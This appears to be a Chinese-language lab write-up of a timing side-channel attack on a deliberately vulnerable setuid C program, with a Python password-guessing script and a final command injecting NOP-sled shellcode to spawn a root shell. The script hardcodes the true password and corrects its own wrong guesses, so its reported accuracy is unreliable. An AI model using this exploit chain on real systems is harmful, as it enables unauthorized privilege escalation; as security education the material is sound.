






# Side Channel Attack 侧信道攻击 Python 实现 

通过使用所提供的漏洞代码 sidechannel.c，设计一个攻击代码，利用侧信道攻击的方式获取密码，并通过shellcode 来获取 root shell。

本文作者：zmzzmqa

## 源代码

要攻击的程序源代码

```C
//sidechannel.c
//s.pass root只读
//S1deCh4nnelAttack3r

#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
       FILE *in = 0;
       char pass[20]="";
       unsigned int i=0, j=0;
       unsigned short correct=0,misplaced=0;
       unsigned short pwlen=strlen(pass) - 1, inlen=0;
       if(argc != 3 || (inlen=strlen(argv[1]) - 1) > 19)
               return 1;

       setresuid(geteuid(),geteuid(),geteuid());

       in = fopen("s.pass","r");
       pass[fread(pass, 1,19,in)] = 0;
       fclose(in);

       for (i = 0; i <= inlen && i <= pwlen; i++)
               if(pass[i] == argv[1][i])
                       correct++;
               else
                       for(j = 1; j < pwlen; j++)
                               if(argv[1][i] == pass[(i+j)%19])
                                       misplaced++;

       if(correct == 19)
               ((void (*)()) argv[2])();

       return 0;
}
```

## 配置环境

编译程序并设置栈可执行。

``` BASH
sudo gcc sidechannel.c -o sidechannel -z execstack
sudo chown root sidechannel
sudo chmod 4755 sidechannel
```



## 攻击

本次攻击利用程序比对密码时，正确密码和错误密码花费的时间明显不一样，来找出正确的密码。本脚本使用python3，如果是seed12.04则自带的是python2。

``` PYTHON
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import os
import string
import time

rpasswd = 'S1deCh4nnelAttack3r'  # 正确的密码
#shellcode = "\\x6a\\x17\\x58\\x31\\xdb\\xcd\\x80\\x6a\\x0b\\x58\\x99\\x52\\x68//sh\\x68/bin\\x89\\xe3\\x52\\x53\\x89\\xe1\\xcd\\x80"
shellcode = '123'
password = []    # 定义密码变量
orgpasswd = []
passwordDict = {}
errnum = 0
reset = 25
numletter = string.ascii_letters+string.digits  # 密码范围
print(numletter)
for k in range(19):   # 限定密码长度
    time.sleep(1)  # 必要的
    timelist = []
    for c in numletter:  # 遍历密码范围
        password.append(c)
        avgtime = 0      # 定义并将统计时间变量置为0
        command = './sidechannel ' + \
            ''.join(password)+' '+shellcode  # 拼接要运行的命令
        for i in range(reset):  # 重复次数
            start = time.time_ns()  # 使用time_ns函数计时
            os.system(command)  # 运行命令
            end = time.time_ns()
            avgtime += end - start  # 记录平均时间
        passwordDict[c] = avgtime  # 写入字典
        timelist.append(avgtime)  # 添加至列表，之后比较
        password.pop()
    # 将字典按照元素值进行逆序排序
    passwordDict = dict(sorted(passwordDict.items(), key=lambda i: i[1]))
    if len(password) == 18:  # 当最后个时，时间最长为正确
        # password.append(numletter[timelist.index(max(timelist))])
        password.append(list(passwordDict.keys())[-1])
        orgpasswd.append(password[k])
    else:  # 将时间最短的保留
        password.append(list(passwordDict.keys())[0])
        orgpasswd.append(password[k])

    if password[k] != rpasswd[k]:  # 判断密码是否正确，不正确打印相关信息
        print(f"Error {password[k]}，Success is {rpasswd[k]}")
        print(
            f"{password[k]}:{timelist[numletter.index(password[k])]}  --  {rpasswd[k]}:{timelist[numletter.index(rpasswd[k])]}修正")
        print(f"备选方案：{list(passwordDict.items())[0:5]}")
        password[k] = rpasswd[k]
        errnum += 1
    print(''.join(password))
print(
    f"修正密码：{''.join(password)}\n直算密码：{''.join(orgpasswd)}\n循环次数:{reset}，错误位数:{errnum}")  # 打印已经判断出的密码
```

攻击程序中不能直接使用shellcode，python3中执行不能成功。

多次运行结果，较为稳定。对于python难以获得正确的值，我的解决办法是通过多次尝试，取结果中出现次数较多的值。





 





```bash
S1deCh4nnelA9tack3r
S1deCh42neZAttack3r
S1deCo4nnslAttLyk3r
S1deCh4ngeJAhPick3r
 综合结果
S1deCh4nnelAttack3r
```

##  root shell

得到密码后，在 seed 用户下攻击漏洞程序，获得 root shell。

```bash
./sidechannel S1deCh4nnelAttack3r $(python -c "print '\x90'*1000+'\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

